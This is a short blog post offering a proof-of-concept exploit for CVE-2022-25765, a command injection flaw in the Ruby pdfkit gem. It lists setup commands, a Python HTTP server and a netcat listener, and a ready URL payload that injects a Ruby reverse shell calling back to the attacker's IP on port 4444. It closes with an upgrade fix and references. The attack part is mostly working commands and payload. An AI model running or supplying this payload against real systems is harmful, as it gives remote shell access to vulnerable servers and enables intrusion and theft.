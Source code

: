 ```yaml
---
title: CVE-2022-25765 pdfkit
author: D_C4ptain
date: 2022-10-08 11:33:00 +0300
categories: [CVE]
tags: [shell, rce, pdfkit, poc, cve, d_captain, D_C4ptain]
math: true
mermaid: true
image:
  path: /assets/img/posts/pdfkit.jpeg
  alt: source (https://www.bio-logical-it.com/).
---
```


# pdfkit-Exploit-Reverse-Shell

All < 0.8.6 versions of this package are vulnerable to Command Injection where the URL is not properly sanitized.

---


## Severity

> Critical 9.8/10
{: .prompt-danger }

 

## Note
This issue was originally addressed in 0.8.7, but the fix was not complete. A complete fix was released in 0.8.7.2.


## Pre-requisites setup

HTTP Server
: - python3 -m http.server 9090

Netcat Listener
: - nc -lvnp 4444


### Reverse Ruby shell

```bash
http://LOCAL-IP:9090/?name=%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("LOCAL-IP",4444))'`
```


##  How to fix?

Upgrade pdfkit to version `0.8.7.2` or higher.



## Reference

[**https://nvd.nist.gov/vuln/detail/CVE-2022-25765**](https://nvd.nist.gov/vuln/detail/CVE-2022-25765)

[**https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795**](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

